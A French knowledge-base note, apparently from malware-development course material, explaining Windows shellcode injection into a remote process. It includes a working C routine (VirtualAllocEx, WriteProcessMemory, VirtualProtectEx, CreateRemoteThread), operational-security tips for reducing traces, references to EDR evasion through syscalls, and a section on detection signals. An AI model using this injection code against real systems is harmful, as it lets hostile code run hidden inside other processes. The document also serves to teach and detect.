

# Injection de shellcode

L'injection de shellcode reprend la structure de l'[[Injection de DLL]] en y apportant une différence décisive : le payload n'est plus un fichier que l'on fait charger, mais un flot d'octets que l'on écrit directement dans la mémoire du processus cible, puis que l'on force à exécuter. On se dispense ainsi de tout artefact sur disque et de tout appel à `LoadLibrary`. Le prix à payer est un enchaînement d'appels très caractéristique, donc facilement détecté.



## Sélection de la cible

L'énumération est strictement identique à celle utilisée pour l'injection de DLL : capture `CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0)`, parcours de la liste par `Process32First` / `Process32Next` sur une structure `PROCESSENTRY32`, comparaison du nom en minuscules, puis `OpenProcess(PROCESS_ALL_ACCESS, FALSE, PID)`. Voir [[Énumération des processus]] pour le détail du code.

## Enchaînement d'injection

| API | Rôle | Protection / flag |
|---|---|---|
| `VirtualAllocEx` | Réserve et committe la mémoire dans le processus distant | `MEM_COMMIT \| MEM_RESERVE`, `PAGE_READWRITE` |
| `WriteProcessMemory` | Écrit le shellcode à l'adresse distante | Doit écrire exactement `sSizeOfShellcode` octets |
| `VirtualProtectEx` | Donne le droit d'exécution à la zone distante | `PAGE_EXECUTE_READWRITE` |
| `CreateRemoteThread` | Lance un thread distant sur l'adresse du shellcode | `lpStartAddress = pShellcodeAddress` |

Le point d'entrée du thread distant est ici l'adresse du shellcode lui-même, et aucun paramètre n'est transmis. Le shellcode doit donc être **entièrement désobfusqué avant l'injection** : une fois copié chez la cible, il n'est plus modifiable par l'injecteur.

```c
BOOL InjectShellcodeToRemoteProcess(HANDLE hProcess, PBYTE pShellcode, SIZE_T sSizeOfShellcode) {

    PVOID pShellcodeAddress = NULL;
    SIZE_T sNumberOfBytesWritten = 0;
    DWORD  dwOldProtection       = 0;

    // Allocation d'une zone RW dans la cible (pas encore exécutable)
    pShellcodeAddress = VirtualAllocEx(hProcess, NULL, sSizeOfShellcode,
                                       MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (pShellcodeAddress == NULL) return FALSE;

    // Écriture du shellcode dans la zone distante
    if (!WriteProcessMemory(hProcess, pShellcodeAddress, pShellcode, sSizeOfShellcode,
                            &sNumberOfBytesWritten)
        || sNumberOfBytesWritten != sSizeOfShellcode)
        return FALSE;

    // La copie locale n'est plus utile : on la remet à zéro
    memset(pShellcode, '\0', sSizeOfShellcode);

    // La zone distante devient exécutable (le "W" reste un signal fort pour les EDR)
    if (!VirtualProtectEx(hProcess, pShellcodeAddress, sSizeOfShellcode,
                          PAGE_EXECUTE_READWRITE, &dwOldProtection))
        return FALSE;

    // Exécution : le thread distant démarre directement sur le shellcode
    if (CreateRemoteThread(hProcess, NULL, NULL, pShellcodeAddress, NULL, NULL, NULL) == NULL)
        return FALSE;

    return TRUE;
}
```

L'effacement (`memset`) de la copie locale relève de l'hygiène opérationnelle : le payload en clair ne subsiste plus qu'à un seul endroit, dans la cible, ce qui réduit la surface d'analyse mémoire côté injecteur.

## Libération de la mémoire distante

`VirtualFreeEx` libère une région allouée dans un processus tiers. Elle accepte les mêmes paramètres que `VirtualFree`, avec un `hProcess` additionnel désignant le processus où réside la zone.

| Paramètre | Signification |
|---|---|
| `hProcess` | Handle du processus distant (propre à `VirtualFreeEx`) |
| `lpAddress` | Adresse de base de la zone à libérer |
| `dwSize` | Taille à libérer (`0` avec `MEM_RELEASE`) |
| `dwFreeType` | `MEM_DECOMMIT` ou `MEM_RELEASE` |

Comme pour l'exécution locale, l'appel ne doit intervenir qu'après la fin du shellcode, faute de quoi on libère du code en cours d'exécution et la cible plante.

## Comparaison avec l'injection de DLL

| Critère | Injection de DLL | Injection de shellcode |
|---|---|---|
| Artefact sur disque | Oui, la DLL doit être accessible | Non, payload purement mémoire |
| Point d'entrée du thread distant | `LoadLibraryW` (adresse légitime) | Adresse du shellcode (sans module associé) |
| Fonction conditionnant l'exécution | `LoadLibraryW` | Aucun appel, exécution directe |
| Protection mémoire de la zone | `PAGE_READWRITE` (la DLL est mappée par le loader) | Passage explicite en `PAGE_EXECUTE_READWRITE` |
| Exposition | Module visible dans l'onglet Modules de la cible | Région mémoire anonyme et exécutable |
| Effort de détection | Réputation et signature du fichier | Analyse de la mémoire et du point de départ du thread |

Le choix entre les deux dépend du compromis recherché : la DLL est plus simple mais laisse plus de traces sur disque ; le shellcode est plus discret sur le stockage mais génère un motif mémoire immédiatement suspect.

## Détection

- Le triptyque `VirtualAllocEx` → `WriteProcessMemory` → `VirtualProtectEx` suivi de `CreateRemoteThread` est la signature comportementale la plus surveillée du processus d'injection.
- Un thread dont l'adresse de départ n'appartient à **aucun module mappé** de la cible est anormal : les threads légitimes démarrent dans le code d'une DLL ou de l'exécutable. C'est un indicateur direct de shellcode injecté.
- Une région mémoire anonyme et exécutable (`RWX` ou `RX` sans nom de module) dans la carte mémoire fait l'objet de scans par les EDR.
- L'utilisation de protections intermédiaires (`PAGE_READWRITE` puis `PAGE_EXECUTE_READ`) est parfois employée pour atténuer le signal, ce qui motive l'usage d'API de plus bas niveau et non documentées, décrites dans [[Structures non documentées]] et [[Introduction aux syscalls]].

Pour la vue d'ensemble des télémétries exploitables, se référer à [[Mécanismes de détection]], et pour la variante qui contourne le hooking utilisateur d'`ntdll.dll`, à [[Réimplémentation des injections via syscalls]]. L'anatomie de la mémoire manipulée est décrite dans [[Gestion de la mémoire Windows]].
